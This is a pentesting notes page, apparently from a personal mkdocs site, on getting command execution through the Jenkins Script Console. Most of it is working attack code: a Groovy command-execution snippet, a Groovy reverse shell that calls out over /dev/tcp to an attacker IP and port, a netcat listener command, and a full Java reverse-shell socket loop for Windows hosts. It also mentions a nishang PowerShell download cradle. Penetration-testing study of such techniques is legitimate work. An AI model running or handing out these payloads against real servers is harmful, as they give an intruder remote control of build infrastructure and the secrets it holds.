

repository: amandaguglieri/hackinglife · page: jenkins-pentesting/index.html · generator: mkdocs

---
title: Pentesting Jenkins
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web
  - pentesting
  - techniques
  - jenkins
---
# Pentesting Jenkins

[Jenkins](https://www.jenkins.io/) is an open-source automation server written in Java that helps developers build and test their software projects continuously. Similar to Tomcat.

Jenkins runs on Tomcat port 8080 by default. It also utilizes port 5000 to attach slave servers. This port is used to communicate between masters and slaves. Jenkins can use a local database, LDAP, Unix user database, delegate security to a servlet container, or use no authentication at all.

## Version

It's usually in the footer section.

## Command execution

### Script Console

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/) located under "Manage Jenkins" tab.

#### Web shell

Some snippet code that we could use:

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

![](img/jenkins_01.png)


#### Reverse shell
Some snippet code that we could use:

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.147/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![](img/jenkins_00.png)

And have a listener in our attacking machine.

```bash
nc -lnvp 1234      
```


### Windows

#### Invoke-PowerShellTcp.ps1

Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

#### Java Reverse shell

Save this file, but modify first  host and port.

```java
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
